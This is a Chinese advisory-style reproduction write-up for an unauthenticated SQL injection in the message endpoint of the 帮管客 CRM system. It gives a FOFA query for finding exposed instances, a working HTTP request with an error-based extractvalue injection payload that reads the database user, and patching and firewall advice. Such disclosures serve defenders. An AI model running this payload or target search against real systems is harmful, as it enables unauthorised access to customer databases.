 
# 帮管客 CRM SQL 注入漏洞复现

### 0x01 产品简介

  帮管客 CRM 是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客[CRM 客户管理系统](https://so.csdn.net/so/search?q=CRM%E5%AE%A2%E6%88%B7%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化[数据分析](https://www.pc6.com/pc/shujufenxiruanjian/ "数据分析")帮管客颠覆传统，重新定义企业管理系统。 

### 0x02 漏洞概述

 帮管客 CRM 客户管理系统/index.php/message 接口存在 sql 注入漏洞，未经身份认证的攻击者可通过此漏洞获取数据库敏感信息。

### 0x03 复现环境

FOFA：app="帮管客-CRM"

![](assets/1701071224-224ddc4f5ba3129f8b26ab3a3d8d9101.png)

### 0x04 漏洞复现 

PoC

```http
GET /index.php/message?page=1&pai=1%20and%20extractvalue(0x7e,concat(0x7e,(select+user%28%29),0x7e))%23&xu=desc HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

查询当前用户

### ![](assets/1701071224-27fdfa86e7abe1264ab334e250935987.png)0x05 修复建议

官方已发布安全版本，请用户联系厂商修复漏洞：https://www.bgk100.com/

部署 Web 应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。

###
